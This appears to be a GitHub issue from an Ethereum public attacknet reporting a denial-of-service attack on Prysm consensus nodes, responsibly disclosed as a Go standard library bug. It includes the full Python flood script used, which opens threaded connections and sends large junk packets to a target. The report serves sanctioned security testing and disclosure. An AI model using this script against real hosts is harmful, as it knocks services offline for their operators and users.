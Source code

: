 #1  https://github.com/ethereum/public-attacknets/issues/1

 The success of this attack was due to a 9 year old bug in the Go standard library. During the "post-mortem" @protolambda, @prestonvanloon, @raulk and I uncovered this bug and opted to responsibly disclose the details to the golang security team. See the link below for more details:

https://groups.google.com/forum/#!msg/golang-announce/NyPIaucMgXo/GdsyQP6QAAAJ

As a part of the responsible disclosure process, I opted to delete this issue until the vulnerability could be fixed and a security patch released. The following is the original description of the attack (unaltered). Enjoy!

Description
Prysm nodes are vulnerable to a DoS attack that prevents them from participating in consensus.

Attack scenario
Three out of four Prsym nodes were targeted by 2 AWS t2.small machines with a sustained DoS attack.

Impact
The effect that the DoS attack had on the attacknet was a prolonged loss finality; however, the network was able to recover to a healthy state within a few epochs once the attack stopped. The nodes under attack demonstrated high CPU usage, a large amount of outbound traffic, trouble finding peers in subnets and one node's local clock had a time disparity causing issues importing blocks.

Details
Attack Procedure
This is the code that the two machines ran to prevent finality on the attacknet

```rust
#!/usr/bin/python3
import threading
import socket
import time
import sys

def worker(id,ip,port):
    while True:
      sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      sock.connect((ip,port))
      print("Worker {} connected".format(id))
      packet = bytes([255]*65536)
      sock.send(packet)
      time.sleep(20)
      sock.close()

if __name__ == "__main__":
    ip=sys.argv[1]
    port=int(sys.argv[2])
    num_threads=int(sys.argv[3])

    threads = []
    for i in range(num_threads):
        thread = threading.Thread(target=worker, args=(i,ip,port))
        threads.append(thread)
        thread.start()
```
To execute the attack, I targeted the following IP addresses with three processes - two processes on one machine and one process on the other.
